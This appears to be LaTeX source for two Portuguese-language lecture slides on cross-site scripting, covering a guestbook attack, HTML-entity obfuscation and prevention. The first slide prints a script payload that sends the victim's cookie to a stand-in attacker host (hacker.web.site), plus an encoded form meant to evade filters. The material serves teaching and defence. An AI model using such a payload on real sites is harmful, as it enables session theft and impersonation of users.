 \begin{frame}[fragile]{Exemplo de Ataque XSS e Ofuscação}
    \begin{itemize}
        \item \textbf{Cenário (Roubo de Cookie):} Código injetado em um livro de visitas que envia o cookie da vítima para o atacante, permitindo personificação.
              \begin{verbatim}
Thanks for this information, its great!
<script>document.location='http://hacker.web.site/cookie.cgi?'+
document.cookie</script>
        \end{verbatim}

        \item \textbf{Ofuscação (Evasão):} O atacante utiliza entidades de caracteres HTML para esconder o script. O navegador interpreta o código abaixo de forma idêntica ao original.
              \begin{verbatim}
Thanks for this information, its great!
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116; ...
        \end{verbatim}
    \end{itemize}
\end{frame}

\begin{frame}{XSS: Prevenção e Causa Raiz}
    \begin{itemize}
        \item \textbf{Prevenção:}
              \begin{itemize}
                  \item Examinar entradas fornecidas pelo usuário.
                  \item Remover ou escapar (\textit{escape}) códigos perigosos.
                  \item Validadores devem traduzir entidades HTML antes da verificação.
              \end{itemize}

        \item \textbf{Natureza da Falha:}
              \begin{itemize}
                  \item Representa uma falha no manuseio tanto da \textbf{entrada} quanto da \textbf{saída} do programa.
                  \item O alvo real é o \textbf{usuário} subsequente, não o servidor.
                  \item A sanitização da saída impede a ocorrência do ataque.
              \end{itemize}

        \item \textbf{Contexto:} Problema similar ao CSRF e \textit{HTTP response splitting} (uso descuidado de entrada não confiável).
    \end{itemize}
\end{frame}

